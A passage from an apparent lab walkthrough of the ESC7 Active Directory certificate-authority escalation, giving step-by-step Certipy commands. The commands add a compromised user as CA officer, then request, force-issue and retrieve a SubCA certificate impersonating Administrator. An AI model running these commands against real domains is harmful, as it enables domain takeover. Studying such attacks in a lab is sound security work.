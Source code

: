 2. We can basically configuration the CA! Now lets enable `Issue and Manage Certificates` on the compromised user `lowpriv`. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-add-officer` flag as follows:

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -add-officer 'lowpriv' -dc-ip 10.66.66.3 -target-ip 10.66.66.3
```

![Added extra permission for lowpriv user](./src/images/esc7_add_officer.png)

3. Request **SubCA** certificate. This should throw errors `CERTSRV_E_TEMPLATE_DENIED`, basically saying we don't have permission to request for specified certificate. Please save the private key to be used later on.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -template SubCA -upn 'Administrator@bionic.local' -target 10.66.66.3 -dc-ip 10.66.66.3
```

![Certipy throws template denied error](./src/images/esc7_init_req_failed.png)

4. Having `Issue and Manage Certificates` permission enabled. Denied template can easily be issued back. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-issue-request` flag with request ID.

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -dc-ip 10.66.66.3 -target-ip 10.66.66.3 -issue-request 14
```

![Certificate issued](./src/images/esc7_issue_certificate.png)

5. Retrieve back the denied certificate request. Note that this steps will require the previously saved private key `<request-id>.key`.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -target 10.66.66.3 -retrieve 14
```
